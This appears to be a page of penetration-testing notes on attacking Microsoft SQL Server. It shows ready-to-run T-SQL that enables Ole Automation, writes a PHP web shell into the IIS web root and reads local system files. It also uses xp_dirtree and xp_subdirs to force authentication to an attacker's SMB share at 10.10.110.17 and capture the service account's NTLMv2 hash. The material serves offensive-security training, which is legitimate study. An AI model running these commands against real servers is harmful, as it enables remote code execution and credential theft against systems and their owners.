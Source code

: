 ## Write Local Files
To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:

### MSSQL - Enable Ole Automation Procedures
```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

### Create a File
```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

## Read Local Files 
```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## Capture MSSQL Service Hash
We can also steal the MSSQL service account hash using xp_subdirs or xp_dirtree undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

To make this work, we need first to start Responder or impacket-smbserver and execute one of the following SQL queries:
## XP_DIRTREE Hash Stealing
```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

## XP_SUBDIRS Hash Stealing
```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```
